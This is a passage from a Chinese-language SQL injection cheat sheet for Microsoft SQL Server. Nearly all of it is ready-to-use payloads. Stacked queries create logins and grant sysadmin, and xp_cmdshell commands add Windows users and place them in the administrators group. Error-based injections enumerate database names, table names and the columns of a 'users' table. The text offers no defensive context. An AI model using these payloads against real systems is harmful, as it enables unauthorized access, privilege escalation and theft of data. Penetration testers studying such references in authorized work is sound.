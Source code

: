 ```
id=1;exec master.dbo.sp_addlogin [用户名];--
id=1;exec master.dbo.sp_password null,[用户名],[密码];--
id=1;exec master.dbo.sp_addsrvrolemember sysadmin [用户名];--
id=1;exec master.dbo.xp_cmdshell 'net user [用户名] [密码] /workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes /add';--
id=1;exec master.dbo.xp_cmdshell 'net user [用户名] [密码] /add';--
id=1;exec master.dbo.xp_cmdshell 'net localgroup administrators [用户名] /add';--
```



## 0x05 sa权限下SQL注入

#### 1. 获取数据库

```
# 数据库版本（利用类型不匹配报错）
id=1 and 1=(select @@version)
id=@@version
# 数据库名称（利用类型不匹配报错）
id=1 and 1=(select db_name())
id=db_name()
```

#### 2. 获取用户数据库

```
# 获取第一个用户数据库（mssql有4个自带的数据库，用户创建从5开始，所以是dbid>4）
id=1 and 1=(select top 1 name from master..sysdatabases where dbid>4)
id=1 and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'[表名]')
id=1 and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'[表名1]' and name<>'[表名2]')
以此类推可以获取全部用户数据库名

# 或者一次全部导出所有数据库名为xml字符串
id=1 and 1=(select name from master..sysdatabases for xml path)
```

#### 3. 获取表名

```
# 获取第一张表
id=1 and 1=(select top 1 name from sysobjects where xtype='u')
id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name<>'[表名]')
id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name<>'[表名1]' and name<>'[表名2]')
以此类推可以获取全部表名

# 或者一次全部导出所有表名为xml字符串
id=1 and 1=(select name from master..sysobjects for xml path)
```

#### 4. 获取表users的列名

```
# 获取第一列列名
id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users'))
id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users') and name<>'[列名]')
以此类推

id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='[表名]') and name<>'[列名]')
```
